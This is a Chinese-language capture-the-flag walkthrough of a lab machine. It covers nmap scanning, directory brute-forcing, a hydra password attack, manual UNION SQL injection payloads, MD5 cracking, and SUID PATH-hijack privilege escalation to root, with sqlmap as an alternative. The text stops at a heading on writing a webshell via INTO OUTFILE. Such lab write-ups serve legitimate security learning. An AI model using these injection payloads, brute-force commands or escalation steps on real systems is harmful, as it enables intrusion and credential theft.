# 寻找目标ip地址




```
nmap -sn 192.168.174.0/24
```

确认目标ip为192.168.174.132

# 初步扫描



```
nmap -sS -sV -sC -O --min-rate 10000 -p- -oA nmapscan/ports 192.168.174.132

```



```
nmap -sS -sV -sC -O --min-rate 10000 -p80,111,777 192.168.174.132
```

- 再次进行详细的端口扫描

- sudo nmap -script=vuln -80,111,777,57394 -oA nmapscan/vuln 192.168.85.136

  -script:启动并执行相应脚本

  auth: 负责处理鉴权证书（绕开鉴权）的脚本
  broadcast: 在局域网内探查更多服务开启状况，如dhcp/dns/sqlserver等服务
  brute: 提供暴力破解方式，针对常见的应用如http/snmp等
  default: 使用-sC或-A选项扫描时候默认的脚本，提供基本脚本扫描能力
  discovery: 对网络进行更多的信息，如SMB枚举、SNMP查询等
  dos: 用于进行拒绝服务攻击
  exploit: 利用已知的漏洞入侵系统
  external: 利用第三方的数据库或资源，例如进行whois解析
  fuzzer: 模糊测试的脚本，发送异常的包到目标机，探测出潜在漏洞 intrusive: 入侵性的脚本，此类脚本可能引发对方的IDS/IPS的记录或屏蔽
  malware: 探测目标机是否感染了病毒、开启了后门等信息
  safe: 此类与intrusive相反，属于安全性脚本
  version: 负责增强服务与版本扫描（Version Detection）功能的脚本
  vuln: 负责检查目标机是否有常见的漏洞（Vulnerability），如是否有MS08_067
  ————————————————
  版权声明：本文为CSDN博主「自由彩虹」的原创文章，遵循CC 4.0 BY-SA版权协议，转载请附上原文出处链接及本声明。
  原文链接：https://blog.csdn.net/2403_87313915/article/details/159862217

  

  在80端口找到dos漏洞，但无法利用

# 初步分析

- 80是http端口



打开后是这个页面

- 111是rpcbind端口

rpcbind这个服务在Linux系统中扮演着重要角色，它就像是网络文件系统（NFS）的"电话总机"。想象一下，当不同的程序需要通过网络相互通信时，rpcbind负责告诉它们该拨打哪个"分机号"（端口号）。默认情况下，它监听111端口，有时也会使用32771等高位端口。

我在实际渗透测试中发现，很多管理员会忽视这个服务的风险。因为它通常与NFS服务捆绑出现，而NFS本身就需要开放网络访问权限。更麻烦的是，rpcbind的历史版本中存在多个高危漏洞，包括远程代码执行（RCE）漏洞。记得有一次内部测试中，我们通过一个老旧的rpcbind版本，只用了几分钟就拿到了整个系统的控制权。

这个服务之所以危险，主要有三个原因：首先它默认运行在特权端口；其次很多发行版不会主动更新它；最后它通常需要开放给整个内网甚至互联网。这三个因素加在一起，就构成了一个完美的攻击入口。
原文链接：https://blog.csdn.net/weixin_29216353/article/details/159060655

- 777是ssh端口（一般是22，所以需要远程连接时要指定端口），在渗透测试中作为最后考虑的端口

# 开始攻击

先进行查看80端口的页面，查看源代码，发现一个图片文件，下载下来

```
wget http://192.168.174.132/main.gif
```

使用命令

```
strings main.gif
exiftool main.gif
```

分别查看

```
file main.gif
```

查看文件格式对不对



在“Comment”一行发现信息“kzMb5nVYJw”

这里我卡的有些时间，不知道作用是什么，也不像加密密码，但是我也没有账户名啊



也不是哈希值

先爆破一下目录

```
gobuster dir -u "http://192.168.174.132" -w "/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt"
```



三个目录

/uploads没权限

/javascript被禁止

/phpmyadmin是数据库，但没有账户密码

没有头绪，与上面那串字符（kzMb5nVYJw）联想起来

- 不是phpmyadmin的密码
- 不能用于ssh的登录
- 或许和url有关



找到隐藏目录，查看源代码说密码并不复杂，那就尝试爆破

```
hydra -l admin -P "/usr/share/wordlists/rockyou.txt" 192.168.174.132 http-form-post "/kzMb5nVYJw/index.php:key=^PASS^:invalid key"
```

成功爆破出密码elite，进入网页

查看源代码发现一个php文件



- 应该是几个账户名字，最开始没有头绪，突然发现在输入框输入东西后，url出现了传参数的函数（其实没有也要尝试sql注入，有能输入的地方都要尝试）

用'或者"进行测试

- "会出现sql报错

# 进行sql注入(方法1)

通过尝试

```
" order by 4;--+
```

报错，说明有三列

```
" union select 1,2,3;--+
```



从之前测列数的过程中，第一个和第二个表格都出现过，并且有

```
EMP NAME : 2
EMP POSITION : 3 
```

所以得知，第2，3列的数据会直接输出在页面

```
"union select 1,2,database();--+
```

看到第三列输出了库名seth



```
"union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='seth';--+
```

(库名要加单引号)

- group_concat的作用是将多个行合并成一个字符串，方便一次性显示



得到表名users

```
"union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users';--+
```

得到列名



得到密码，看起来像base64

```
echo "YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE" >1.txt
base64 -d 1.txt
```

得到值c6d6bd7ebf806f43c76acc3681703b81

```
hash-identifier c6d6bd7ebf806f43c76acc3681703b81
```



得知是md5

```
hashcat -m 0 "c6d6bd7ebf806f43c76acc3681703b81" /usr/share/wordlists/rockyou.txt
```

或者

```
echo "c6d6bd7ebf806f43c76acc3681703b81" > hash.txt
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

得到密码omega

进行ssh连接

```
ssh ramses@192.168.174.132 -p 777
```

登录成功

```
ls -la
```

发现有一个历史文件



```
cat .bash_history
```



如下



所有人都可以执行procwatch文件



在 `ramses` 的主目录下，发现一个可执行文件 `procwatch`，它具有 **SUID** 位（`rwsr-xr-x`，所有者 root）。
运行该程序，它的输出行为和 `ps` 命令相似。

### 原理详解

- **SUID 机制**：如果一个可执行文件的 SUID 位被设置，那么无论谁运行它，该进程都会以**文件所有者的权限**运行（此处为 root）。
- SUID（Set User ID）是一种特殊的文件权限，赋予二进制可执行文件。在执行此类文件时，调用者会暂时获得该文件拥有者（通常是 root）的权限。这使得普通用户在运行某些程序时能够执行需更高权限的操作（例如修改密码），但也可能被用于 SUID 提权
- **相对路径调用漏洞**：`procwatch` 内部调用了系统命令 `ps`，但使用的是**相对路径**（即直接写 `ps`，而不是 `/bin/ps`）。当程序执行 `ps` 时，会去 `PATH` 环境变量包含的目录中搜索名为 `ps` 的可执行文件。
- **环境变量劫持**：我们可以修改 `PATH`，把一个我们控制的目录（如 `/tmp`）放到最前面。然后在这个目录下放置一个同名恶意脚本 `ps`。当 `procwatch` 以 root 权限调用 `ps` 时，就会执行我们伪造的 root shell 脚本，从而提权。

###### 

运行后看到调用了ps进程

创造恶意脚本

```
echo "/bin/bash -p" > /tmp/ps
```

```
chmod 777 /tmp/ps
```

这个脚本只有一行：启动一个bash

劫持PATH环境变量

```
export PATH=/tmp:$PATH
```

此时`echo $PATH` 会显示 `/tmp` 在 `/bin` 前面。

```
./procwatch
```



获得root权限，



成功拿下

------


## （除了sql注入，还有其他方法）

### sqlmap（方法二）

```
sqlmap -u "http://192.168.174.132/kzMb5nVYJw/420search.php?usrtosearch=test" --dbs
```



得到库名seth

```
sqlmap -u "http://192.168.174.132/kzMb5nVYJw/420search.php?usrtosearch=test" -D seth --tables
```



得到表名users

```
sqlmap -u "http://192.168.174.132/kzMb5nVYJw/420search.php?usrtosearch=test" -T users --dump
```



得到列里的信息（包括密码）

### 写入一句话木马（INTO OUTFILE）